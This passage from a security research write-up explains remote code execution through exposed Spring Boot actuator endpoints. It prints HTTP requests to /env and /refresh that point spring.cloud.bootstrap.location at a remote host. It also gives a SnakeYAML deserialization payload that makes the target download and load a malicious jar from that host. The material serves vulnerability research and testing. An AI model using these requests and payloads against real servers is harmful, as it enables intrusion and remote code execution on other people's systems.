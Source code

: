 spring.datasource.jndiName - databases JNDI string (used only for the first connection)

spring.datasource.tomcat.dataSourceJNDI - databases JNDI string (not used at all)

spring.cloud.config.uri=http://artsploit.com/ - spring cloud config url (does not have any effect after app start, only the initial values are used.)

These properties do not have any effect unless the '/restart' endpoint is called. This endpoint restarts all ApplicationContext but its disabled by default.

There are a lot of other interesting properties, but most of them do not take immediate effect after change.

N.B. In Spring Boot 2x, the request format for modifying properties via the '/env' endpoint is slightly different (it uses json format instead), but the idea is the same.

An example of the vulnerable app:

If you want to test this vulnerability locally, I created a simple Spring Boot application on my Github page. All payloads should work there, except for database settings (unless you configure it).

Black box discovery:

A full list of default actuators may be found here: https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt. Keep in mind that application developers can create their own endpoints using @Endpoint annotation.

Update May 2019:

There is a more reliable way to achieve RCE via a Spring environmental properties modification:

POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
 
spring.cloud.bootstrap.location=http://artsploit.com/yaml-payload.yml

This request modifies the 'spring.cloud.bootstrap.location' property, which is used to load external config and parse it in YAML format. To make this happen, we also need to call the '/refresh' endpoint.

POST /refresh HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

When the YAML config is fetched from the remote server, it is parsed with the SnakeYAML library, which is also susceptible to deserialization attacks. The payload (yaml-payload.yml) may be generated by using the aforementioned Marshalsec research :

!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]

Deserialization of this file triggers execution of the ScriptEngineManager's constructor with the supplied URLClassLoader. In a nutshell, it leads to the 'java.util.ServiceLoader#load(java.lang.Class<S>, java.lang.ClassLoader)' method, which tries to find all implementations of the 'ScriptEngineFactory' interface within all libraries in the classpath. Since we can add a new library via URLClassLoader, we can serve a new 'ScriptEngineFactory' with the malicious bytecode inside. In order to do so, we need to create a jar archive with the following mandatory files: yaml-payload.jar:/artsploit/AwesomeScriptEngineFactory.class should contain the actual bytecode, with the malicious payload in the constructor.
